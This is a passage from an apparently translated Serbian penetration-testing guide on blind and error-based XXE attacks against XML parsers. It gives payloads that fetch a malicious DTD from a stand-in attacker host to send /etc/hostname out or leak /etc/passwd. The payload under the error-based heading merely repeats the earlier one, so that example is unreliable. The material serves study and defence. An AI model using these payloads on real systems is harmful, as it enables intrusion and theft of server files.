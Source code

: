 Napadač postavlja ovaj zlonamerni DTD na serveru pod svojom kontrolom, obično na URL adresi poput `http://web-napadac.com/zlonamerni.dtd`.

**XXE Payload:** Da bi iskoristio ranjivu aplikaciju, napadač šalje XXE payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

Ova payload definise XML parametarski entitet `%xxe` i inkorporira ga unutar DTD-a. Kada ga procesuira XML parser, ovaj payload dohvata spoljni DTD sa servera napadača. Parser zatim tumači DTD u liniji, izvršavajući korake navedene u zlonamernom DTD-u i dovodeći do ekstrakcije fajla `/etc/hostname` na server napadača.

### Bazirano na Grešci (Spoljni DTD)

**U ovom slučaju ćemo naterati server da učita zlonamerni DTD koji će prikazati sadržaj fajla unutar poruke o grešci (ovo je validno samo ako možete videti poruke o grešci).** [**Primer odavde.**](https://portswigger.net/web-security/xxe/blind)

Poruka o grešci pri parsiranju XML-a, otkriva sadržaj fajla `/etc/passwd`, može biti izazvana korišćenjem zlonamernog spoljnog Document Type Definition (DTD). Ovo se postiže kroz sledeće korake:

1. Definiše se XML parametarski entitet nazvan `file`, koji sadrži sadržaj fajla `/etc/passwd`.
2. Definiše se XML parametarski entitet nazvan `eval`, inkorporirajući dinamičku deklaraciju za drugi XML parametarski entitet nazvan `error`. Ovaj entitet `error`, kada se evaluira, pokušava da učita nepostojeći fajl, inkorporirajući sadržaj `file` entiteta kao njegovo ime.
3. Poziva se entitet `eval`, dovodeći do dinamičke deklaracije entiteta `error`.
4. Pozivanje entiteta `error` rezultira pokušajem učitavanja nepostojećeg fajla, proizvodeći poruku o grešci koja uključuje sadržaj fajla `/etc/passwd` kao deo imena fajla.

Zlonamerni spoljni DTD može biti pozvan korišćenjem sledećeg XML-a:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

### **Zasnovano na greškama (sistemski DTD)**

Šta je sa slepim XXE ranjivostima kada su **interakcije van opsega blokirane** (spoljašnje veze nisu dostupne)?.

Rupa u specifikaciji XML jezika može **izložiti osetljive podatke putem poruka o greškama kada se DTD dokumenta meša interne i eksterne deklaracije**. Ovaj problem omogućava unutrašnje predefinisanje entiteta deklarisanih spolja, olakšavajući izvršenje napada XXE zasnovanih na greškama. Takvi napadi iskorišćavaju predefinisanje XML parametarskog entiteta, koji je prvobitno deklarisan u spoljnom DTD-u, unutar internog DTD-a. Kada su spoljašnje veze blokirane od strane servera, napadači moraju da se oslone na lokalne DTD datoteke kako bi sproveli napad, sa ciljem izazivanja greške u parsiranju radi otkrivanja osetljivih informacija.

Razmotrite scenarijo u kojem sistemski fajl servera sadrži DTD fajl na lokaciji `/usr/local/app/schema.dtd`, koji definiše entitet nazvan `custom_entity`. Napadač može izazvati grešku u parsiranju XML-a otkrivajući sadržaj fajla `/etc/passwd` podnošenjem hibridnog DTD-a na sledeći način:
